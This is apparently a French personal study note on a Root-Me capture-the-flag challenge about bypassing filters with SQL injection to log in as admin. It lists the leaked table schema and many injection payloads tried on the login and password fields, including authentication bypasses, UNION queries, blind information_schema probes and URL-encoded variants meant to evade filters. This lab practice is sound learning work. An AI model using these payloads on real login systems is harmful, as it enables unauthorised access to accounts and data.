 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Contournement-de-filtres
---
```

# But

se connecter en admin avec une injection SQL

# Fourni

une login page avec une autre page qui nous annonce qu'un compte avec pour user "admin" et id "1" existe
on sait aussi qu'il faudra faire un contournement de filtre

Je vois dans le code source : 

```
<!--
// CREATE TABLE IF NOT EXISTS `membres` (
//   `id` int(1) NOT NULL AUTO_INCREMENT,
//   `username` VARCHAR(5) NOT NULL,
//   `pass` VARCHAR(20) NOT NULL,
//   `email` VARCHAR( 50 ) NOT NULL,
//   PRIMARY KEY (`id`)
// ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
-->
```

je sais donc que c'est une bd "MyISAM" et j'ai aussi le nom de champs
# Méthode de résolution

il faudrait que je me mette à utiliser sqlmap et les autres outils d'injection SQL

[root me a une fiche d'aide pour cela ](https://www.root-me.org/Outil-Sqlmap)


Payload testé pour login
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

' OR 'a'='a'--
' OR 'a'='a'#
' OR 'a'='a'/*
' OR 1=2 UNION SELECT 1,2,3--
' OR EXISTS(SELECT 1 FROM members)--

' OR username LIKE 'adm%'--
' OR ASCII(SUBSTRING((SELECT database()),1,1))>64--
' OR LENGTH((SELECT table_name FROM information_schema.tables LIMIT 1))>1--

admin'--
admin'#
admin'/*
```

Payloads testés pour le pass
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

1234' OR 'a'='a'--
1234' OR '1'='1'--
1234' OR 1=1#
1234' OR 1=2 UNION SELECT 1,2,3--

' OR (SELECT COUNT(*) FROM information_schema.tables)>0--
' OR (SELECT LENGTH(username) FROM members LIMIT 1)=5--
' OR password LIKE 'pa%'--
```

Il faut ensuite tester avec des caractères url encodés, au cas ou il y aurai des filtres

```
|   |
|---|
|%27%20OR%201%3D1--|
|%27%20OR%20%271%27%3D%271%27--|
|%27%20OR%20%271%27%3D%271%27%23|
|%27%20OR%201%3D1%23|
|%27%20OR%201%3D1%2F%2A|
||
|%27%20OR%20%27a%27%3D%27a%27--|
|%27%20OR%20%27a%27%3D%27a%27%23|
|%27%20OR%20%27a%27%3D%27a%27%2F%2A|
|%27%20OR%201%3D2%20UNION%20SELECT%201%2C2%2C3--|
|%27%20OR%20EXISTS%28SELECT%201%20FROM%20members%29--|
||
|%27%20OR%20username%20LIKE%20%27adm%25%27--|
|%27%20OR%20ASCII%28SUBSTRING%28%28SELECT%20database%28%29%29%2C1%2C1%29%29%3E64--|
|%27%20OR%20LENGTH%28%28SELECT%20table_name%20FROM%20information_schema.tables%20LIMIT%201%29%29%3E1--|
... (20lignes restantes)
```